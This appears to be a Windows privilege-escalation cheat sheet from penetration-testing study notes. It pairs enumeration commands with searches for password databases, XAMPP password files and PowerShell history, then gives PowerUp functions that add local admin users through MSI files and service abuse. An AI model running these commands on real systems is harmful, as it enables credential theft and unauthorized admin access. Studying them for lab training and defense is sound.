 ## Automate

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## Manual

```

whoami # username/hostname
whoami /groups # check user is in which group

net user
net user <username>
Get-LocalUser # Powershell

net localgroup
net localgroup <groupname>
Get-localgroup # Powershell

systeminfo
netstat -ano

# Installed Apps # Powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-Process # Powershell - running process
Get-Process | Select ProcessName,Path # With Path

# Powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

# Powershell
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

# Default xampp passwords
type C:\xampp\passwords.txt
type C:\xampp\mysql\bin\my.ini

# Change username
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

Get-History # Powershell History
(Get-PSReadlineOption).HistorySavePath # Powershell History

```


### More Automate

## PowerUp

1. **Download and Import the Script:**
    
    - First, you need to download the `PowerUp.ps1` script from the PowerSploit repository. You can do this by cloning the PowerSploit repository from GitHub or by downloading the script directly.
        
    - Once you have the script, you can import it into your PowerShell session using the `Import-Module` cmdlet.
        
                
        `Import-Module ./Path/To/PowerUp.ps1`
        
2. **Run Functions to Find Vulnerabilities:**
    
    - `PowerUp.ps1` offers a variety of functions to check for common misconfigurations that can lead to privilege escalation. For example:
        
        - **Invoke-AllChecks:** This function runs all current escalation checks and returns a consolidated object with the results.
            
                        
            `Invoke-AllChecks`
            
        - **Get-ServiceUnquoted:** This function checks for services with unquoted paths that also have a space in their path. This can potentially lead to privilege escalation.
            
                        
            `Get-ServiceUnquoted`
            
        - **Write-UserAddMSI:** This function generates an MSI file in the specified path that prompts for installation. When installed, it adds a local or domain user with the specified username and password.
            
                        
            `Write-UserAddMSI -UserName "NewAdminUser" -Password "P@ssword!"`
            
1. **Write-ServiceBinary**: This function writes out a binary that adds a local admin user or executes a custom command when a service with an unquoted path (and a writable space in the path) is started.
    
        
    `Write-ServiceBinary -Name 'VulnerableServiceName' -Path 'C:\Path\To\Output\Binary.exe'`
    
2. **Invoke-ServiceAbuse**: This function abuses writable service binaries to write out a payload that adds a local admin user.
    
        
    `Invoke-ServiceAbuse -Name 'VulnerableServiceName' -UserName 'NewAdminUser'`
    
3. **Get-ModifiablePath**: This function finds paths that are modifiable by the current user and are in the system's PATH environment variable. This can be exploited if a service or application executes a binary from a directory that the user can write to.
    
        
    `Get-ModifiablePath`



